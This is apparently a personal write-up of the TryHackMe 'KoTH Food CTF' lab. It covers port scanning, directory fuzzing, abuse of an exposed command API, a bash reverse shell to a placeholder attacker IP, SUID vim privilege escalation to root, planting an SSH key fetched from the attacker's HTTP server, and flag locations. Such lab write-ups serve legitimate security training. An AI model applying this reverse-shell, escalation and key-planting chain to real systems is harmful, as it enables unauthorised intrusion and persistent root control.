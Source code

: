 
# KoTH Food CTF

Get all 8 flags.

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.30.69 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Select running services with

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

[x] 22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

[x] 3306/tcp  open  mysql   syn-ack ttl 63 MySQL 5.7.29-0ubuntu0.18.04.1

[x] 9999/tcp  open  abyss?  syn-ack ttl 63

[x] 15065/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

[x] 16109/tcp open  unknown syn-ack ttl 63

[x] 46969/tcp open  telnet  syn-ack ttl 63 Linux telnetd

Okay, first of all, let's visit the http service at port 15065.
I says the the site is down for maintenance, but we won't believe it and fire up
ffuf:

```bash
$ ./ffuf -u http://10.10.30.69:15065/FUZZ -ic -of html -o ~/CTF/KoTHFoodCTF/ffuf-report.html -t 55 -w ~/CyberSecurity/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

We did a good job - a page ***monitor*** showed up! After navigating to the page, we
can see that it has an ability to ping other hosts. Specify your IP address and hit
the "Ping" button. Now, open DevTools in your browser and inspect the request.

See that we send the command, and not just your IP?

> ping -c 4 $THE_IP

It seems like we can send arbitrary commands and server will execute them!
Try this one in your terminal and see what happens:

```bash
$ curl -X POST http://10.10.30.69:15065/api/cmd -H "Content-Type: text/plain" -d 'id'
```

Ok, it's time for serios hacking. First, setup your netcat listener:

```bash
$ nc -lvnp 8080
```

Then, force the server to execute a reverse shell:

```bash
$ curl -X POST http://10.10.30.69:15065/api/cmd -H "Content-Type: text/plain" -d 'bash -i >& /dev/tcp/$ATTACKER_IP_GOES_HERE/8080 0>&1'
```

Now, we have a shell, but as a lousy "bread" user. Let's escalate our privileges.
First, run this command to find all files with SUID bit set:

```bash
$ find / -type f -perm -u=s 2>/dev/null
```

You'll see bunch of files, but the most interesting is ***vim***. Use [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#suid)
to find the payload for vim with SUID exploitation. But first, check the python version
with the following command:

```bash
$ which python
# Nothing
$ which python3
# Python3 is installed!
```

Now, root the server:

```bash
$ vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

You have EUID and EGID of root now! Awesome, but this kind of shell sucks.
Lets abuse the SSH service to get an upgrade.

On the attacker machine, do

```bash
$ ssh-keygen

## And set ./root_id_rsa as the filename

$ chmod 600 root_id_rsa

$ python3 -m http.server 3000
```

Next, on the victim machine, navigate to /root/.ssh and execute the following code:

```bash
$ curl http://$ATTCKER_IP_GOES_HERE:3000/root_id_rsa.pub >> authorized_keys
```

Now, kill the python http server and connect to the victim via ssh:

```bash
$ ssh root@10.10.30.69 -i root_id_rsa
```

So, flags located at:

1. /home/bread/flag
2. /home/food/.flag
3. /root/flag
4. /home/tryhackme/flag7
5. Connect to MySQL database with default credentials (root:root):

```bash
$ mysql -h 127.0.0.1 -u root -p
```

Traverse through the DB:

```sql
$ SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
$ USE users;
$ SHOW TABLES;
+-----------------+
| Tables_in_users |
+-----------------+
| User            |
+-----------------+
$ SELECT * FROM User;
```

6. /var/flag.txt
7. ?
8. ?

Some useless stuff I found:

- /home/tryhackme/img.jpg

Trnsfer file to your machine:

```bash
$ scp -i root_id_rsa root@10.10.30.69:/home/tryhackme/img.jpg .
```

And extract creds for pasta:

```bash
$ steghide extract -sf img.jpg
```
